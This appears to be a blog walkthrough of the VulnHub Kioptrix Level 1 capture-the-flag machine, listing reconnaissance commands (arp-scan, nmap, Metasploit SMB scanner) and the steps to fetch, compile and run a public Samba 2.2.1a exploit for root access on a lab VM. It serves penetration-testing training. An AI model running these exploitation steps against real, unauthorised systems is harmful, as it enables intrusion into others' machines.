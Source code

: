 ```yaml
---
title: "Vulhub-Kiotrix Level 1 Walkthrough"
date: 2024-01-24
categories: [Vulnhub, CTF ]
image: /assets/Kioptrix_Cover.jpg
tags: [Kioptrix, Boot2Root, Penetration Testing, Samba Exploit]
description: "A walkthrough for hacking the vulnerable machine Kioptrix Level 1 from VulnHub."
active: true
---
```


## Introduction
Welcome to the Kiotrix Level 1 challenge. This is a walkthrough for hacking the vulnerable machine **Kioptrix Level 1** from VulnHub. There are various ways to root this box, and I will keep the process clear and concise. Let's get started.

## Challenge Details
- **Name:** Kiotrix Level 1  
- **Category:** Boot2Root  
- **Difficulty:** Easy  

## Prerequisites
Before you begin, ensure that you have the following:
- **Kali Linux** or any other preferred penetration testing distribution.
- **Kioptrix Level 1 VM** installed and running.
![Kioptrix VM Running](../assets/1kioprix.png)

## Walkthrough
### Step 1: Reconnaissance
#### Network Discovery and Setup
Execute the following command on your attack machine to check if Kioptrix Level 1 is on the network:
```bash
arp-scan -l
```
If Kioptrix is not detected, troubleshoot and ensure it is installed correctly.
![Kioptrix VM Running](../assets/2kioptrix.png)
Identified IP address:
```bash
192.168.10.171
```

### Step 2: Enumeration
Run an Nmap scan to identify open ports and services:
```bash
nmap -A -p- -T4 192.168.10.171
```
The results show that **port 80 is open**, displaying a test page in the browser.
![Kioptrix VM Running](../assets/4kioptrix.png)
![Kioptrix VM Running](../assets/3kioptrix.png)
Additionally, **Samba service** is detected, which will be crucial for privilege escalation.

### Step 3: Samba Enumeration
Utilize `enum4linux` and `smbclient` to confirm the presence of Samba on the remote host.
![Kioptrix VM Running](../assets/5kioptrix.png)
Start Metasploit and use the auxiliary scanner:
![Kioptrix VM Running](../assets/6kioptrix.png)
```bash
msfconsole
use auxiliary/scanner/smb/smb_version
set RHOSTS 192.168.10.171
run
```
![Kioptrix VM Running](../assets/6kioptrix.png)
The results show that **Samba 2.2.1a** is running, which is vulnerable to multiple exploits.

### Step 4: Exploitation - Samba 2.2.1a
Search for available exploits using `searchsploit`:
```bash
searchsploit samba 2.2.1a
```
The results show multiple exploits, and we choose `multiple/remote/10.c`.
![Kioptrix VM Running](../assets/9kioptrix.png)
Download the exploit:
```bash
searchsploit -m multiple/remote/10.c
```
![Kioptrix VM Running](../assets/10kioptrix.png)
Compile the exploit:
```bash
gcc -o sambaexploit 10.c
```
![Kioptrix VM Running](../assets/11kioptrix.png)
Execute the exploit:
```bash
./sambaexploit -b 192.168.10.171
```
![Kioptrix VM Running](../assets/12kioptrix.png)
After execution, verify root access:
```bash
whoami
```
![Kioptrix VM Running](../assets/13kioptrix.png)
![Kioptrix VM Running](../assets/14kioptrix.png)
## Conclusion
You've successfully completed Kiotrix Level 1. This walkthrough provided a step-by-step guide to solving the challenge. If you encountered any issues or have questions, feel free to reach out!

Remember to document and understand the techniques used, as they may be helpful in future CTFs. **Happy hacking!**
{% include restricted_content.html %}
